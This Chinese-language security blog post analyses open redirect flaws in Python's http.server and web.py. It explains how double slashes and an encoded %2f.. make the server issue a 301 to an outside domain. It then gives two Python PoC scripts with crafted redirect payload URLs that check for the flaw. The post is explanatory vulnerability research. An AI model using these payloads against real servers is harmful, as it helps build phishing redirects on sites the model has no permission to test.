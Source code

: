 Title:python http.server和web.py的URL跳转漏洞实践
Date: 2018-01-20 10:20
Category: python安全
Tags: python安全,URL redirect
Slug: 
Authors: bit4
Summary: 



看了[Phithon的文章](https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html) 分析了2个python的web服务器中的URL跳转漏洞，自己也尝试跟着思路理一理。

### 0x0、函数的本意

这个函数的本意是：

判断当前请求的url中的path（也就是本例中的“email”）是不是一个存在的路径，如果是则通过301重定向到

email/  这是其他web服务器都具有的一个正常操作。

```
http://127.0.0.1:8000/email
会自动跳转到
http://127.0.0.1:8000/email/
```

可以通过浏览器正常访问试一试，正常的web服务器都会这样跳转。

![本来的功能](img/http.server/正常的请求.png)

通过断点调试看到的信息（关于调试给SimpleHTTPServer.py下断点，方法和给自己的代码下断点一样，因为它里面直接有一个测试函数，可以直接运行SimpleHTTPServer.py来启动一个web服务器）：

![本来的功能](img/http.server/本来的功能.png)



### 0x1、单斜杠和双斜杠对于ulrparse.urlsplit()

从phithon的文章中可以看出，要实现URL的跳转的一个关键是浏览器把双斜杠后面的内容当作域名。

我们在burp中试试，发现能通过可以构造出带双斜杠的Location返回（如下图）。

![双斜杠的差异](img/http.server/双斜杠的差异.png)



继续在代码中加断点中看看，可以看出，当请求的url是单斜杠时（如上图下半部分），email是被认为是path，当是双斜杠时却被认为是netloc。个人认为这是http.server和其他web服务器所不同的地方（比如nginx，自己试过，访问http://www.code2sec.com/img  和访问http://www.code2sec.com//img 的结果都是一样的，说明这2个请求中，img都被认为是path）。

![yyy](img/http.server/yyy.png)

可以看出，关键是urlparse.urlsplit()函数导致的。

![urlsplit](img/http.server/urlsplit.png)

再验证一下上面提到的nginx中是否可以构造出带双斜杠的Location。结果表明不行，所以，这个漏洞之所以成立的一个前提条件就是：使用了urlparse.urlsplit()来解析path导致可以构造出双斜杠的Location返回，否则这个漏洞将不成立。（所以修复方案是否可以朝着这个思路来？）

![nginx](img/http.server/nginx.png)

### 0x2、为什么需要%2f..



```
如果是：
http://127.0.0.1:8000//example.com//..
最后的/..将被浏览器处理，根本发送不到服务器端，发送到服务端的请求将是（可以抓包验证一下），
http://127.0.0.1:8000//example.com/

想要发送到服务器端，就必须对/进行URL编码,即
http://127.0.0.1:8000//example.com/%2f..
```

而到了服务器端，这个`//example.com/%2f..`将被translate_path()函数处理，会先进行url解码然后转换为系统路径

![translatepath](img/http.server/translatepath.png)

解码后的内容为//example.com//.. 也就是当前路径了。

![translatepath1](img/http.server/translatepath1.png)



### 0x3、PoC脚本

以上基本理清了poc中的一些关键点，附上自动化检测脚本，可直接用于POC-T。

http.server open redirect的poc

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

'''
参考链接：https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
paylaod: http://127.0.0.1:8000//example.com/%2f%2e%2e
测试状态：成功
'''

import requests
import urlparse
import sys

def poc(url):
    x = urlparse.urlparse(url)
    target = "{0}://{1}".format(x.scheme,x.netloc)

    payload = "{0}//example.com/%2f%2e%2e".format(target)

    response = requests.get(payload,allow_redirects=False,timeout=3,verify=False)

    if response.status_code ==301:
        try:
            location = response.headers["Location"]
            if "example.com" in location:
                return True
            else:
                return False
        except:
            return False
            pass

if __name__ == "__main__":
    print poc(sys.argv[1])
```

web.py open redirect的poc:

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4'
__github__ = 'https://github.com/bit4woo'

'''
漏洞名称：
实验环境：
参考链接：https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
payload： http://127.0.0.1:8080////static%2fcss%2f@www.example.com/..%2f
说明：根据p神的文章，是只有处理静态文件的代码是继承了SimpleHTTPRequestHandler类，才会受到影响
所以，这里的提供的url，最好是静态文件的url，比如 js、css、图片的完整url。
测试状态：
'''

import requests
import urlparse
import sys
import urllib


'''
#
import web

urls = (
    '/(.*)', 'hello'
)
app = web.application(urls, globals())

class hello:
    def GET(self, name):
        if not name:
            name = 'World'
        return 'Hello, ' + name + '!'

if __name__ == "__main__":
    app.run()
'''


def poc(url):
    print("you should provide a static resoure url, like js|css|image")
    x = urlparse.urlparse(url)
    path_list = x.path.split("/")
    path_list.pop()
    path_list.remove("")
    path_list.append("")# list是有序的
    path= "%2f".join(path_list)
    #path = urllib.quote(path)
    #print(path)
    target = "{0}://{1}".format(x.scheme,x.netloc)
    #http://127.0.0.1:8080////static%2fcss%2f@www.example.com/..%2f
    payload = "{0}////{1}@www.example.com/..%2f".format(target,path)
    print(payload)
    response = requests.get(payload,allow_redirects=False,timeout=3,verify=False)

    if response.status_code ==301:
        try:
            location = response.headers["Location"]
            if "example.com" in location:
                return True
            else:
                return False
        except:
            return False
            pass

if __name__ == "__main__":
    print poc(sys.argv[1])

```



参考：

https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html